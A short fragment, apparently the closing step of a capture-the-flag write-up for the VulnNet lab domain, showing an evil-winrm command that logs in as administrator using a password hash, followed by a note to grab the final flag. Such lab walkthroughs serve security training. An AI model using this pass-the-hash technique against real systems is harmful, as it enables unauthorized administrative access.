 ```shell
evil-winrm -i vulnnet-rst.local -u administrator -H HASH
```

Get the final flag.

GGs 🤝

![](../Breaching_Active_Directory/attachments/b1810d0bf4fbd370349d671a3f9389af.gif)